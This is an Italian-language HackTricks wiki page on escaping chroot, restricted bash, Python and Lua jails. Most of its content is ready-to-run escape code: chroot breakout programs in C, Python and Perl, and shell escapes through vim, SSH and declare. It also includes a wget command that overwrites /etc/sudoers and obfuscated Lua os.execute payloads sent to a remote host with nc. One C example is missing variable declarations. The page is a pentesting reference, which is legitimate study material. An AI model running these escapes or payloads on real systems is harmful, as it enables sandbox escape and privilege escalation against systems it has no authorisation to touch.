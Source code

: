 # Fuga dalle Prigioni

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **GTFOBins**

**Cerca su** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **se puoi eseguire un qualsiasi binario con la proprietà "Shell"**

## Fughe da Chroot

Da [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Il meccanismo chroot **non è pensato per difendersi** da manomissioni intenzionali da parte di utenti **privilegiati** (**root**). Sui sistemi più comuni, i contesti chroot non si impilano correttamente e i programmi chrooted **con privilegi sufficienti possono eseguire un secondo chroot per evadere**.\
Di solito questo significa che per evadere devi essere root all'interno del chroot.

{% hint style="success" %}
Lo **strumento** [**chw00t**](https://github.com/earthquake/chw00t) è stato creato per abusare degli scenari seguenti e scappare da `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Se sei **root** all'interno di un chroot **puoi evadere** creando **un altro chroot**. Questo perché 2 chroots non possono coesistere (in Linux), quindi se crei una cartella e poi **crei un nuovo chroot** su quella nuova cartella essendo **fuori da essa**, sarai ora **fuori dal nuovo chroot** e quindi sarai nel FS.

Questo avviene perché di solito chroot NON sposta la tua directory di lavoro in quella indicata, quindi puoi creare un chroot ma essere fuori da esso.
{% endhint %}

Di solito non troverai il binario `chroot` all'interno di una prigione chroot, ma **potresti compilare, caricare ed eseguire** un binario:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + File Descriptor Salvato

{% hint style="warning" %}
Questo è simile al caso precedente, ma in questo caso l'**attaccante memorizza un descrittore di file nella directory corrente** e poi **crea il chroot in una nuova cartella**. Infine, poiché ha **accesso** a quel **FD** **al di fuori** del chroot, vi accede e **effettua l'escape**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
I file descriptor possono essere passati tramite Unix Domain Sockets, quindi:

* Crea un processo figlio (fork)
* Crea un UDS in modo che il genitore e il figlio possano comunicare
* Esegui chroot nel processo figlio in una cartella diversa
* Nel processo genitore, crea un file descriptor di una cartella che si trova al di fuori del nuovo chroot del processo figlio
* Passa al processo figlio quel file descriptor utilizzando l'UDS
* Il processo figlio cambia la directory di lavoro in quel file descriptor e, poiché si trova al di fuori del suo chroot, riuscirà a evadere la prigione
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Montare il dispositivo root (/) in una directory all'interno del chroot
* Eseguire il chroot in quella directory

Questo è possibile in Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Montare procfs in una directory all'interno del chroot (se non è già stato fatto)
* Cercare un PID che abbia un'entrata root/cwd diversa, ad esempio: /proc/1/root
* Eseguire il chroot in quell'entrata
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Creare un Fork (processo figlio) e chroot in una cartella diversa più in profondità nel file system e cambiare la directory di lavoro su di essa
* Dal processo genitore, spostare la cartella in cui si trova il processo figlio in una cartella precedente al chroot dei figli
* Questo processo figlio si troverà al di fuori del chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Tempo fa gli utenti potevano eseguire il debug dei propri processi da un processo di se stessi... ma questo non è più possibile per impostazione predefinita
* Comunque, se fosse possibile, potresti ptrace in un processo ed eseguire un shellcode al suo interno ([vedi questo esempio](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumerazione

Ottieni informazioni sulla prigione:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Modifica del PATH

Verifica se puoi modificare la variabile di ambiente PATH
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Utilizzo di vim
```bash
:set shell=/bin/sh
:shell
```
### Crea script

Verifica se puoi creare un file eseguibile con _/bin/bash_ come contenuto
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Ottenere bash da SSH

Se stai accedendo tramite ssh, puoi utilizzare questo trucco per eseguire una shell bash:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Dichiarare
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

È possibile sovrascrivere ad esempio il file sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Altri trucchi

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**Potrebbe essere interessante anche la pagina:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Trucchi per evadere dalle prigioni Python nella seguente pagina:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

In questa pagina puoi trovare le funzioni globali a cui hai accesso all'interno di Lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Valutazione con esecuzione di comandi:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Alcuni trucchi per **chiamare le funzioni di una libreria senza usare i punti**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Enumerare le funzioni di una libreria:
```bash
for k,v in pairs(string) do print(k,v) end
```
Nota che ogni volta che esegui il one liner precedente in un **ambiente lua diverso l'ordine delle funzioni cambia**. Pertanto, se hai bisogno di eseguire una funzione specifica, puoi effettuare un attacco a forza bruta caricando diversi ambienti lua e chiamando la prima funzione della libreria:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Ottieni una shell lua interattiva**: Se ti trovi all'interno di una shell lua limitata, puoi ottenere una nuova shell lua (e sperabilmente illimitata) chiamando:
```bash
debug.debug()
```
## Riferimenti

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Diapositive: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}
